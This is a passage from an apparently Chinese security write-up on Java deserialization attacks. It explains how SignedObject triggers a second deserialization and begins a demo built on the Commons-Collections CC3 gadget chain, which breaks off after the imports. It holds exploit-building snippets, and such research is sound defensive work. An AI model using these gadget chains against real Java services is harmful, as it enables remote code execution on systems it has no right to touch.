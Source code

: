反序列化的内容也是可控，去看下他的构造方法，将传入的对象进行序列化给 b 并将字节数组存储到 content 中

[![](assets/1709112106-ac7562115a1dd95d52e4d17cd88b5465.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195509-0ead0256-d567-1.png)

一个小型 demo 来传入恶意对象

```bash
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化，kp.getPrivate(), Signature.getInstance("DSA"));
```

那么现在我先手动调用他的 getObject() 方法并且传入一个可以进行反序列化的对象 (随便拉了个 CC3 就行)

```bash
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Map;

public class main {
    public static void main(String[] args) throws NoSuchAlgorithmException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, SignatureException, InvalidKeyException, NoSuchFieldException {

```
